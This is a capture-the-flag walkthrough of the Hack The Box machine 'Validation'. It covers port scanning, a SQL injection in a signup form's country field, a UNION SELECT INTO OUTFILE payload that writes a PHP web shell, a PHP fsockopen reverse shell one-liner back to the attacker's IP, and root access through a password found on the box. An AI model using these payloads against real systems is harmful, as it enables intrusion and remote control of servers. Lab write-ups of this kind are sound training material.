


# HTB - Validation

#### Ip: 10.10.11.116
#### Name: Validation
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Validation]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.116
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 11:35 CDT
Nmap scan report for 10.10.11.116
Host is up (0.066s latency).
Not shown: 65522 closed tcp ports (reset)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
4566/tcp open     kwtc
8080/tcp open     http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.79 seconds
```

Lets enumerate open ports a bit further and use the `-sC` and `-sV` flags to use default Nmap scripts and to enumerate versions. I'll also use the `-T4` flag to increase the threads and speed things up.

```text
┌──(ryan㉿kali)-[~/HTB/Validation]
└─$ sudo nmap -sC -sV -T4 10.10.11.116 -p 22,80,4566,8080
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 12:02 CDT
Nmap scan report for 10.10.11.116
Host is up (0.069s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.48 seconds
```

Navigating to the site on port 80, we find a page that looks to be a signup for UHC. 


Lets capture the request in BurpSuite and see how the registration looks:

```text
POST / HTTP/1.1
Host: 10.10.11.116
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.10.11.116
Connection: close
Referer: http://10.10.11.116/
Cookie: user=49f68a5c8493ec2c0bf489821c21fc3b
Upgrade-Insecure-Requests: 1

username=howdy&country=Brazil
```

After tinkering around with the username field a bit, I tried adding a `'` character to the end of Brazil in the `country` field, to test for a possible SQL injection, and it seems we may be onto something!



I didn't find anything too interesting in the databases, so I'm going to focus my attention on leveraging this SQLi into (hopefully) RCE. 

### Exploitation

Lets try uploading a web shell to `/var/www/html` and see if we can get execution. 

In Burp:

```text
username=howdy&country=Brazil' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/php-shell.php' --+-
```


Nice! We have code execution:


From here we should just be able to use a one-liner to get a reverse shell on the box. Lets try with PHP first:

After URL encoding: 

```php
php -r '$sock=fsockopen("10.10.14.20",443);system("sh <&3 >&3 2>&3");'
```

I set up a Netcat listener and navigated to:

```text
10.10.11.116/php-shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.20%22%2C443%29%3Bsystem%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

and caught a shell as www-data:


Lets quickly stabilize the shell with Python:

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



Ah, no dice. Interestingly, Python doesn't appear to be installed on the box. No worries, we can still stabilize this shell using another command:

```text
/usr/bin/script -qc /bin/bash /dev/null
```

From here we can grab user.txt


### Privilege Escalation

Browsing around the machine a bit, I find an interesting file back in `/var/www/html` where we originally landed on this box, and find a password.


Lets try to use this credential to switch users to root:

```text
www-data@validation:/var/www/html$ su -
su -
Password: uhc-9qual-global-pw

root@validation:~# whoami
whoami
root
root@validation:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Nice! All that's left to do now is grab the final flag:


Thanks for following along!

-Ryan

-------------------------------------------------------------------
